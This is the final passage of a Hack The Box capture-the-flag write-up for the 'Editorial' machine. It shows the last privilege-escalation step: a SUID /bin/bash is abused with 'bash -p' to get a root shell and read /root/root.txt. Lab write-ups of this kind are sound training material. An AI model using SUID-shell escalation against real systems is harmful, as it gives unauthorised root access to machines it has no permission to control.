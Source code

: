 
- Given that `/bin/bash` has SUID privileges, all that was left was to execute `bash -p`, and he was able to read `root.txt`!


```bash
bash -p
cat /root/root.txt
```

![](/assets/images/HTB-Writeup-Editorial/Pasted image 20240618163514.png)



>I hope you had as much fun reading this write up as I did writing it. If this writeup helped you, please feel free to go to my [`Hack The Box profile (xpnt)`](https://app.hackthebox.com/profile/1504363) and give me a respect 😁. Happy Hacking!!👾
{: .prompt-tip }